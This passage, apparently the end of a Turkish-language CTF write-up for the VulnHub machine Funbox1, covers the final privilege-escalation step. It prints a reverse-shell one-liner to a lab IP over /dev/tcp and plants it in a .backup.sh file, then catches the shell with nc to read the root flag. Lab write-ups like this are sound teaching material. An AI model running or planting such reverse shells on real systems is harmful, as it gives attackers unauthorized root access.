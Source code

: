 ```bash
echo "sudo bash -c 'exec bash -i &>/dev/tcp/192.168.56.105/7776 <&1'" > .backup.sh
```

nc ile 7776 numaralı port dinlenir ve kısa bir süre otomatik bağlantı gerçekleşmektedir. Root dizini altındaki flag değerine ulaşılarak çözümleme tamamlanır.

{{< image src="/images/vulnhub/funbox1/root.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}
{{< text >}}Yetki yükseltme aşaması biraz zaman alsa da çözülmeye değer bir makinaydı. :hugs:
{{< /text >}}
{{< image src="/images/vulnhub/funbox1/finally.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}













 






